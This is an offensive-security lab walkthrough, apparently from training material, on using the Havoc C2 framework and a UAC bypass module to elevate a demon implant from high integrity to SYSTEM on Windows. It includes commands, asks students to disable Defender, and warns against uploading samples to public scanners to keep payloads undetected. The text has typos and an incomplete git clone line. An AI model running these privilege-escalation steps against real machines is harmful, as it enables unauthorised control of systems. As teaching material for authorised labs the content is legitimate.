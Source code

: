 # Lab - UAC Bypass

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

> ***IMPORTANT***: For this lab we will ***<r>TURN OFF Windows Defender</r>***. We will deal with AV evasion techniques later, for now let's focus on making sure we can escalate to the highest level of privileges (SYSTEM).

On kali :

```bash
cd /opt/havoc
mkdir modules
cd modules
https://github.com/icyguider/UAC-BOF-Bonanza.git
cd UAC-BOF-Bonanza
make
```
First let's now load or new UAC Bypass Module in havoc by clicking on `SCRIPT MANAGER` and locating the `Havoc-UACBypass,py` file.

On your windows machine, open a command prompt

```powershell
cd c:\temp\
demo.x64.exe
```
![Screenshot](./images/labuac_havocscript.jpg)

We have a beacon running in as user Threatadmin in HIGH intergity - but not as SYSTEM yet (don't worry this also works from medium integrity). We can run the `whoami` command to confirm this.

![screenshot](./images/labuac_havocwhoamithreat.jpg)

We can see here that the demon implant is running with
- user Threatadmin
- Part of the local administrators group
- in High integrity level

Now in the Havoc UI let's interact with this beacon and run our UAC-Bypass.

![Screenshot](./images/labuac_havocinteract.jpg)

```powershell
uac-bypass sspidatagram c:\temp\demon.x64.exe
```
![Screenshot](./images/labuac_havocuacsystem.jpg)

A new demon implant will spawn, but now running with SYSTEM privileges as you can verify this by interacting with this new session and running the `whoami` command again.

![Screenshot](./images/labuac_havocwhoami.jpg)

When opening systeminformer we can see the 2 demon implants (verify the process ID's)

![Screenshot](./images/labuac_si2.jpg)

To do the same attack but from an admin user running with `MEDIUM` integrity, just open a command prompt and type:

```powershell
runas /user:student_adm cmd.exe
```

This will run a command prompt as administrator (student_adm is part of the admininistrator group)